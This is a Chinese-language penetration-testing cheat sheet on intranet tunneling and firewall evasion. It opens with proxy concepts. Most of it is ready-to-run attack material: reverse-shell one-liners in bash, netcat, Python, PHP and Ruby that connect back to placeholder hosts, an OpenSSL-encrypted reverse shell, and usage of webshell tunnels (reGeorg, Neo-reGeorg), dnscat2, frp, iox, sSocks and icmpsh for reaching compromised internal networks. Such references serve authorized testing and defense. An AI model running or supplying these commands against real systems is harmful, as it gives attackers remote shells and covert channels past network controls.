



# [](#%E5%86%85%E7%BD%91%E9%9A%A7%E9%81%93%E7%A9%BF%E9%80%8F)内网隧道穿透

## [](#1-%E5%9C%BA%E6%99%AF%E4%BB%8B%E7%BB%8D)1 场景介绍

### [](#11-%E7%9B%B8%E5%85%B3%E6%A6%82%E5%BF%B5)1.1 相关概念

内网穿透是：利用各种隧道技术，寻找防火墙允许的协议，混杂在正常流量中穿透，绕过网络防火墙的封锁，实现访问被封锁的目标网络。

> 被封装的数据包在隧道的两个端点之间通过公共互联网络进行路由。被封装的数据包在公共互联网络上传递时所经过的逻辑路径称为隧道。一旦到达网络终点，数据将被解包并转发到最终目的地。注意隧道技术是指包括数据封装、传输和解包在内的全过程。

隧道协议的主要作用包括：**规避防火墙**、**加密网络流量**。

常见的隧道列举如下：

-   应用层：SSH、HTTP、HTTPS、DNS。
-   传输层：TCP、UDP、常规端口转发。
-   网络层：IPv6、ICMP、GRE。

### [](#12-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86--%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2 正向代理 & 反向代理

正向代理中，proxy 和 client 同属一个 LAN，对 server 透明；

反向代理中，proxy 和 server 同属一个 LAN，对 client 透明。 实际上 proxy 在两种代理中做的事都是代为收发请求和响应，不过从结构上来看正好左右互换了下，所以把前者那种代理方式叫做正向代理，后者叫做反向代理。

#### [](#121-%E6%AD%A3%E5%90%91%E4%BB%A3%E7%90%86)1.2.1 正向代理

`Lhost -> proxy -> Rhost`

Lhost 为了访问到 Rhost，向 proxy 发送了一个请求并且指定目标是 Rhost，然后 proxy 向 Rhost 转交请求并将获得的内容返回给 Lhost，简单来说正向代理就是 proxy 代替了我们去访问 Rhost。

#### [](#122-%E5%8F%8D%E5%90%91%E4%BB%A3%E7%90%86)1.2.2 反向代理

`Lhost <----> proxy <----> firewall <----> Rhost`

和正向代理相反，Lhost 只向 proxy 发送普通的请求，具体让它转到哪里，proxy 自己判断，然后将返回的数据递交回来，这样的好处就是在某些防火墙只允许 proxy 数据进出的时候可以有效的进行穿透

### [](#13-%E8%BD%AC%E5%8F%91%E5%9C%BA%E6%99%AF)1.3 转发场景

#### [](#131-%E5%B8%B8%E8%A7%81%E7%9A%84%E5%9C%BA%E6%99%AF)1.3.1 常见的场景

**安全运维**：绕过堡垒机或防火墙实现对内网服务器进行远程管理

**内网渗透**：绕过堡垒机或防火墙实现对内网服务器进行攻击

目标处于网络边界，内外网都可以访问，网络边界主机未安装防火墙，所有端口都对互联网开放，此类业务场景已经极少出现。

目标处于内网，允许特定的应用层协议出网(比如 HTTP、SSH、DNS)等应用层协议(3389、22、445、53、80、443等)。

目标处于内网，不能访问外网，但是可以访问边界主机，防火墙策略限制外部网络直接访问内网的敏感端口(3389、22、445 等)。

常见的转发方式：

-   反弹端口
-   反弹 shell
-   socks 代理

#### [](#132-%E9%98%B2%E7%81%AB%E5%A2%99%E8%A7%84%E5%88%99)1.3.2 防火墙规则

-   入网
    -   特定的端口映射 `80:80`
-   出网
    -   ICMP
    -   允许特定的协议(HTTP、DNS、SSH、RDP)
    -   允许特定端口(先主流端口，再全端口)

#### [](#133-%E8%BF%9E%E9%80%9A%E6%80%A7%E6%A3%80%E6%B5%8B)1.3.3 连通性检测

在建立隧道前，首先要检测目标机器是否能出网、什么协议可以出网。手动检测较麻烦，所以就有了这个工具，可配合如 wmiexec、psexec 等横向工具进行批量检测，该工具可以在 dnslog 中回显内网 ip 地址和计算机名，可实现内网中的快速定位可出网机器。

工具：[https://github.com/uknowsec/SharpNetCheck](https://github.com/uknowsec/SharpNetCheck)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Usage: SharpNetCheck -dns -host ceye.io<br>       SharpNetCheck -http -host/ip ceye.io<br>       SharpNetCheck -all -host ceye.io<br>``` |

## [](#2-%E5%8F%8D%E5%BC%B9-shell)2 反弹 shell

### [](#21-bash)2.1 Bash

#### [](#211-bash-tcp)2.1.1 Bash TCP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>bash -i >& /dev/tcp/ip/port 0>&1<br>bash -i > /dev/tcp/ip/port 0<& 2>&1<br>exec 5<>/dev/tcp/ip/port;cat <&5 \| while read line; do $line 2>&5 >&5; done<br>exec /bin/sh 0</dev/tcp/ip/port 1>&0 2>&0<br>0<&196;exec 196<>/dev/tcp/ip/port; sh <&196 >&196 2>&196<br>``` |

#### [](#212-bash-udp)2.1.2 Bash UDP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>Victim:<br>sh -i >& /dev/udp/10.0.0.1/4242 0>&1<br><br>Listener:<br>nc -u -lvp 4242<br>``` |

### [](#22-%E5%BA%94%E7%94%A8%E5%86%85%E5%8F%8D%E5%BC%B9-shell)2.2 应用内反弹 shell

#### [](#221-netcat)2.2.1 netcat

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ncat ip port -e /bin/bash<br>nc -e /bin/bash ip port<br>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc ip port >/tmp/f<br>rm -f x; mknod x p && nc ip port 0<x \| /bin/bash 1>x<br>``` |

#### [](#222-python)2.2.2 python

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br><br># windows only<br>python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",port,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'<br>``` |

Python 环境下的 Tips

转成交互式 shell：`python -c 'import pty;pty.spawn("/bin/bash")'`

完全交互式 shell：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>$ python -c 'import pty; pty.spawn("/bin/bash")'<br>Ctrl-Z<br>$ stty raw -echo<br>$ fg<br>$ reset<br>$ export SHELL=bash<br>//$ export TERM=xterm-256color<br>``` |

#### [](#223-php)2.2.3 PHP

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```php<br>php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'<br><br>php -r '$s=fsockopen("ip",port);$proc=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s),$pipes);'<br>  <br>php -r '$s=fsockopen("ip",port);shell_exec("/bin/sh -i <&3 >&3 2>&3");'<br>``` |

#### [](#224-ruby)2.2.4 Ruby

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>ruby -rsocket -e'f=TCPSocket.open("ip",port).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'<br><br># windows only<br>ruby -rsocket -e 'c=TCPSocket.new("ip","port");while(cmd=c.gets);IO.popen(cmd,"r"){\|io\|c.print io.read}end'<br>``` |

### [](#23-openssl-%E6%B5%81%E9%87%8F%E5%8A%A0%E5%AF%86)2.3 openssl 流量加密

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>``` | ```bash<br># VPS 生成 SSL 证书的公私钥对<br>openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes<br><br># 在 VPS 监听反弹 shell<br>openssl s_server -quiet -key key.pem -cert cert.pem -port 4433<br><br># 在目标上用 openssl 加密反弹 shell 的流量(linux)<br>mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 \| openssl s_client -quiet -connect IP:port > /tmp/s; rm /tmp/s<br><br># windows<br>openssl s_client -quiet -connect [ip]:[port1] \| cmd.exe \| openssl s_client -quiet -connect [ip]:[port2]<br><br># 以上命令会从 [ip]:[port1] 获取命令发送给 cmd.exe执行，然后把结果返回到 [ip]:[port2]<br><br># 因此在本机需要启动两个 s_server<br><br># 从 port1 发送命令到 cmd<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port1] <br># 从 port2 获取发送给 port1 的命令执行结果<br><br>openssl s_server -quiet -key key.pem -cert cert.pem -port [port2]<br>``` |

### [](#24-all-in-one)2.4 All in One

以下是几个自动生成反弹 shell 命令的网站：

[https://mrxn.net/reverse\_shell.php](https://mrxn.net/reverse_shell.php)

[https://ares-x.com/tools/reverse-shell/](https://ares-x.com/tools/reverse-shell/)

一个在线编码的网站，防止因特殊字符被过滤，也可以用在 java.lang.Runtime.exec() 的 payload 中：

[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)

## [](#3-%E5%BA%94%E7%94%A8%E5%B1%82%E9%9A%A7%E9%81%93)3 应用层隧道

### [](#31-http-%E9%9A%A7%E9%81%93)3.1 HTTP 隧道

#### [](#311-regeorg)3.1.1 reGeorg

**建议使用 nosocket 版**

工具地址：[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

使用方法：

1.  上传 tunnel 文件
2.  服务端运行：`python reGeorgSocksProxy.py -p 8080 -u http://ip:port/tunnel/tunnel.jsp`

#### [](#312-neo-regorg)3.1.2 Neo-reGorg

工具地址：[https://github.com/L-codes/Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)

**Neo-reGeorg** 是一个重构了 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

-   提高 tunnel 连接安全性
-   提高可用性，避免特征检测
-   提高传输内容保密性
-   应对更多的网络环境场景

使用方法：

1.  设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器：`python3 neoreg.py generate -k password`
2.  使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理：`python3 neoreg.py -k password -u http://xx/tunnel.php`

注意

注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等

#### [](#313-%E5%85%B6%E5%AE%83)3.1.3 其它

-   Tunna

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br># -u 远程代理脚本地址<br># -l 表示本地监听的端口<br># -r 远程映射端口<br># -v 输出详细数据<br># -a 代理远程连接的主机地址<br>python proxy.py -u http://ip/conn.aspx -l 1080 -v<br>python proxy.py -u http://ip/conn.aspx -l 5555 -r 8080 -s -v -n<br>``` |

-   [abptts](https://github.com/nccgroup/ABPTTS)
-   [pystinger](https://github.com/FunnyWolf/pystinger)
-   …

### [](#32-ssh-%E9%9A%A7%E9%81%93)3.2 SSH 隧道

参考：[https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/](https://3nd.xyz/AD-Pentest/AD-Pentest-Hidden-Tunnel/)

#### [](#321-%E6%9C%AC%E5%9C%B0%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.1 本地端口转发

在本地主机上开启端口流量转发功能

例如：在入侵者主机上执行（VPS 上执行主动连接）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -L 8866:192.168.10.3:23 -fN 192.168.10.2<br>``` |



#### [](#322-%E8%BF%9C%E7%A8%8B%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)3.2.2 远程端口转发

在远程主机上开启端口流量转发功能

例如：在堡垒机上执行（边界主机上执行回连）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -R 8866:192.168.10.3:23 -fN 192.168.10.1<br>``` |



#### [](#323-%E5%8A%A8%E6%80%81%E8%BD%AC%E5%8F%91---socket)3.2.3 动态转发 - Socket

在本地主机上开启流量动态转发功能，并配置代理

例如：在入侵者主机上执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -D 1100 -fN 192.168.10.2<br>``` |



### [](#33-dns-%E9%9A%A7%E9%81%93)3.3 DNS 隧道

工具 [DNScat2](https://github.com/iagox86/dnscat2)

编译好的各种版本：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/)

#### [](#331-%E9%85%8D%E7%BD%AE%E8%A7%A3%E6%9E%90%E8%AE%B0%E5%BD%95)3.3.1 配置解析记录

DNS 解析记录中添加一条 A 记录，名称为 `ns1` 值为 VPS IP 地址

再添加一条 NS 记录，名称为任意一个子域名，指向地址为 `ns1.yourdomain.com`

#### [](#332-%E5%AE%89%E8%A3%85-dnscat2-%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.2 安装 dnscat2 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>apt-get install gem<br>apt-get install ruby-dev<br>apt-get install libpq-dev<br>apt-get install ruby-bundler<br>apt-get install git<br>git clone https://github.com/iagox86/dnscat2<br>bundle install<br>``` |

#### [](#333-%E5%90%AF%E5%8A%A8%E6%9C%8D%E5%8A%A1%E7%AB%AF)3.3.3 启动服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ruby ./dnscat2.rb dnscat.yuming.com -e open -c mima --no-cache<br>``` |

#### [](#334-%E5%90%AF%E5%8A%A8%E5%AE%A2%E6%88%B7%E7%AB%AF)3.3.4 启动客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 测试能否通信<br>dnscat-client.exe -ping dnscat.yuming.com<br><br># 连接<br>dnscat-client.exe --dns domain=dnscat.yuming.com -secret mima<br>``` |

## [](#4-%E4%BC%A0%E8%BE%93%E5%B1%82)4 传输层

SOCKS4 支持 telnet、FTP、HTTP 等 TCP 协议

SOCKS5 支持 TCP 与 UDP，并支持安全认证方案

### [](#41-frp)4.1 FRP

frp 采用 Golang 编写，支持跨平台，仅需下载对应平台的二进制文件即可执行。工具地址：[https://github.com/fatedier/frp](https://github.com/fatedier/frp)

编写配置文件，先通过 `./frps -c ./frps.ini` 启动服务端，再通过 `./frpc -c ./frpc.ini` 启动客户端。

服务端部署在我们具有公网 IP 的服务器上，客户端放在我们拿到权限的跳板服务器上，双端都需要对配置文件进行配置。

#### [](#411-%E6%9C%8D%E5%8A%A1%E7%AB%AF)4.1.1 服务端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>[common]<br># frp 服务端端口<br>bind_port = 7000<br># 仪表盘端口<br>dashboard_port = 8888<br># frp服务端密码<br>token = 123456<br># 仪表盘默认账号密码<br>dashboard_user = admin<br>dashboard_pwd = admin<br>``` |

启动 FRP：`frps -c frps.ini`

#### [](#412-%E5%AE%A2%E6%88%B7%E7%AB%AF)4.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```fallback<br>[common]<br>server_addr = VPS IP<br>server_port = 7000<br># 与 vps 保持一致<br>token = 123456<br>[ssh]<br>type = tcp<br>local_ip = 127.0.0.1<br>local_port = 22<br>remote_port = 7000<br>use_encryption = true<br>use_compression = true<br>``` |

### [](#42-iox)4.2 iox

iox 是一个端口转发 & 内网代理工具，功能类似于`lcx`/`ew`，但是比它们更好。

工具地址：[https://github.com/EddieIvan01/iox](https://github.com/EddieIvan01/iox)

#### [](#421-%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91)4.2.1 端口转发

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```bash<br># 端口转发 - 从本地 8888 转到 9999<br>./iox fwd -l 8888 -l 9999<br><br># 端口转发 - 从本地 8888，把流量转发到 1.1.1.1:9999<br>./iox fwd -l 8888 -r 1.1.1.1:9999<br><br># 连接 1.1.1.1:8888 和 1.1.1.1:9999, 在两个连接间转发<br>./iox fwd -r 1.1.1.1:8888 -r 1.1.1.1:9999<br>``` |

#### [](#422-%E4%BB%A3%E7%90%86)4.2.2 代理

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```bash<br># 在本地 0.0.0.0:1080 启动 Socks5 服务 - 正向代理<br>./iox proxy -l 1080<br><br><br># 反向代理<br># 在被控机开启 Socks5 服务，将服务转发到公网 VPS<br>./iox proxy -r 1.1.1.1:9999<br><br># 在 VPS 上转发 0.0.0.0:9999 到 0.0.0.0:1080<br># 你必须将两条命令成对使用，因为它内部包含了一个简单的协议来控制回连<br>./iox proxy -l 9999 -l 1080       // 注意，这两个端口是有顺序的<br><br># 接着连接内网主机<br># socks5://1.1.1.1:1080<br>proxychains rdesktop 192.168.0.100:3389<br>``` |

### [](#43-ssocks)4.3 sSocks

sSocks 是一个 socks 代理工具套装，可用来开启 socks 代理服务，支持 socks5 验证，支持 IPV6 和 UDP，并提供反向 socks 代理服务，即将远程计算机作为 socks 代理服务端，反弹回本地，极大方便内网的渗透测试。

工具地址：[http://sourceforge.net/projects/ssocks/](http://sourceforge.net/projects/ssocks/)

-   正向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>./ssocksd --bind 192.168.172.131 --port 1080<br>``` |

-   反向代理

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br># 攻击者机器监听 6020 端口转发到 6010<br>./rcsocks -l 6020 -p 6010 -vv<br><br># 受害者反向连接代理主机 6010 端口<br>./rssocks -s 攻击者IP:6010 -vv<br>``` |

## [](#5-%E7%BD%91%E7%BB%9C%E5%B1%82)5 网络层

### [](#51-icmp-tunnel)5.1 ICMP Tunnel

工具名称：[ICMPSH](https://github.com/inquisb/icmpsh)

#### [](#511-%E6%9C%8D%E5%8A%A1%E7%AB%AF)5.1.1 服务端

服务端首先需要关闭 ICMP 回显：`sysctl -w net.ipv4.icmp_echo_ignore_all=1`

安装服务端：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>apt-get install python-impacket<br>python icmpsh_m.py 本机IP 目标机器公网IP<br>``` |

#### [](#512-%E5%AE%A2%E6%88%B7%E7%AB%AF)5.1.2 客户端

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>icmpsh.exe -t 目标IP -d 500 -b 30 -s 128<br>``` |
